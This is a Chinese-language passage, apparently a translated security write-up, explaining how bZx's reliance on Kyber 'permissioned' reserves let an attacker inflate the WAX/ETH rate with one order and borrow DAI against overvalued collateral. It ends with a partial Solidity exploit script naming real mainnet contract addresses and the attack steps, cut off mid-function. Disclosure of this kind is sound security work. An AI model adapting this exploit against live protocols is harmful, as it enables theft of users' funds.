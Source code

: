 

但是，首先了解Kyber网络的功能很重要。与大多数其他DEX不同，Kyber网络从*reserves(准备金)*(有关更多信息，请点击[此处](https://developer.kyber.network/docs/Reserves-Intro/))中获得流动性，当用户想要在两个代币A和B之间进行交易时，主Kyber合约将查询所有已注册的储备金以获取A/ETH和ETH/B之间的最佳汇率，然后使用所选的两个储备金进行交易。

储备金可以通过*PermissionlessOrderbookReserveLister*合约列出，这将创建“permissionless（无许可）“储备金。在满足KYC和法律要求之后，Kyber团队也可以代表做市商列出储备金。在此案例中，储备金将是许可的储备金。使用Kyber进行交易时，交易者可以选择仅使用许可的储备金，或使用所有可用储备金。

### 攻击原理

当bZx检查抵押代币的价格时，它指定仅应使用“许可”的储备金。该决定是根据当时的Kyber白皮书做出的，其逻辑是必须对许可的储备金进行审核，因此汇率应该是“正确的”。

![](https://img.learnblockchain.cn/2020/12/17/16081915262837.jpg)
[来源](https://whitepaper.io/document/43/kyber-network-whitepaper),图片来源：Kyber Network



这意味着，如果我们能够以某种方式提高“许可”准备金的汇率，我们就可以欺骗Fulcrum认为我们的抵押物的价值超过其实际价值。

#### 许可的订单簿准备金

在2019年6月16日，Kyber团队在[此交易](https://etherscan.io/tx/0xce7df57e6b6d5589f19125b9298bbb36e672d373196d7610073540f59220c318)中将WAX代币的OrderbookReserve列为”许可“的储备金。这就有趣了。



将此储备金列出后，Kyber网络本身继续按照规范运行。但是，我们现在只需简单下订单，就可以显着影响WAX与ETH之间的汇率表现，这意味着我们可以欺骗任何依赖Kyber提供准确FMV的项目。

### 攻击演示

以下脚本将通过以下方式获得约1200ETH的利润：

1. 以10 ETH购买1 WAX下单，价格从0.00xETH/WAX涨到10ETH/WAX
2. 使用WAX作为抵押从bZx借用DAI
3. 取消所有订单并将所有资产兑换为ETH

```javascript
contract BZxWAXExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_DAI = BZxLoanTokenV2Like(0x14094949152EDDBFcd073717200DA82fEd8dC960);
    
    ERC20Like private constant WAX = ERC20Like(0x39Bb259F66E1C59d5ABEF88375979b4D20D98022);
    OrderbookReserveLike private constant WAX_ORDER_BOOK = OrderbookReserveLike(0x75fF6BeC6Ed398FA80EA1596cef422D64681F057);
    
    uint constant private INITIAL_BALANCE = 150 ether;
    
    function setup() public {
        name("bzx-wax-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 1e8;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(WAX, KYBER_ETH, rateCheckAmount);
```